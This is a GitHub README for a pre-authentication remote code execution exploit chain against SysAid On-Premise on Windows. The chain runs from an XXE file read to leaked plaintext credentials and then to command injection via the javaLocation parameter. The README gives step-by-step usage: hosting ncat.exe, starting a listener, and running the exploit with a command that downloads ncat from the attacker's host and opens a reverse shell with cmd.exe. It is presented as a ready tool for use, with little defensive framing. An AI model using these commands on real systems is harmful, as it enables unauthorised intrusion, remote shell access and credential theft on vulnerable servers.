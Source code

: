 <p align="center">
  <img src="logo.png" width="250px" alt="SysAid Logo">
</p>

<h1 align="center">SysAid Pre-Auth RCE Chain Exploit</h1>

<p align="center">
  <strong>🔥 CVE-2025-2775 → CVE-2025-2778 RCE Chain</strong><br>
  🧑‍💻 Author: <strong>0xgh057r3c0n</strong> | 🔬 Research: <strong>@SinSinology</strong> & <strong>@watchTowrcyber</strong><br>
  <a href="https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain?style=flat-square" alt="MIT License">
  </a>
</p>

---

## 🚨 Associated CVEs

| CVE ID         | Description                                                       |
|----------------|-------------------------------------------------------------------|
| **CVE-2025-2775** | XXE vulnerability in `/mdm/serverurl` endpoint                  |
| **CVE-2025-2776** | Arbitrary file read via malicious external DTD (XXE technique)  |
| **CVE-2025-2777** | Credentials stored in plaintext in `InitAccount.cmd`            |
| **CVE-2025-2778** | Authenticated command injection via `javaLocation` parameter    |

These are chained together to achieve **unauthenticated remote command execution**.

---

## 🧩 About

This is a Python-based exploit that targets **SysAid On-Premise** running on **Windows**. It chains multiple vulnerabilities to achieve **pre-authenticated blind RCE**.

---

## 🧰 Requirements

- Python 3.6+
- `requests` module
- Attacker host with HTTP server and Netcat (`ncat`)
- SysAid target running on Windows

Install dependencies:

```bash
pip install requests
````

---

## 🔗 Exploit Chain Overview

1. XXE payload via `/mdm/serverurl` → triggers DTD-based file read
2. Leak `InitAccount.cmd` → extract hardcoded credentials
3. Log in with leaked creds
4. Inject command via `javaLocation` param (blind RCE)

---

## 🖥️ Step-by-Step Usage

### 1️⃣ Download and Host `ncat.exe` (Windows Netcat)

* 📥 Download from official source:
  [https://nmap.org/dist/ncat-portable-5.59BETA1.zip](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)

* Extract `ncat.exe`

* Host it using Python HTTP server:

```bash
cd /path/to/ncat/
python3 -m http.server 80
```

Accessible at:

```
http://<ATTACKER_IP>/ncat.exe
```

---

### 2️⃣ Start a Reverse Shell Listener

On your attacker machine:

```bash
ncat -lvnp 4444
```

---

### 3️⃣ Run the Exploit

#### 🔸 Basic RCE (blind)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c whoami
```

> You won’t get output, but command runs silently.

---

#### 🔹 Reverse Shell (Windows)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c "cmd.exe /c curl http://<ATTACKER_IP>/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe <ATTACKER_IP> 4444 -e cmd.exe"
```

**Decoded:**

```cmd
cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe
C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe
```

---

## 📦 Example Workflow

```bash
# Host Netcat binary
python3 -m http.server 80

# Start listener
ncat -lvnp 4444

# Launch exploit
python3 exploit.py -t http://192.168.1.100:8080 -l 192.168.1.20 -c "cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe"
```

---

## 🧪 Tested On

* ✅ SysAid On-Prem (Windows Server)
* ✅ Python 3.8+
* ✅ ncat.exe from Nmap

---

## 👨‍🔬 Credits

* 🔬 Research: [@SinSinology](https://twitter.com/SinSinology) & [@watchTowrcyber](https://twitter.com/watchTowrcyber)
* 💻 Exploit: **0xgh057r3c0n**

---

## 📜 License

This project is licensed under the MIT License. See the full license here:
🔗 [MIT License on GitHub](https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE)

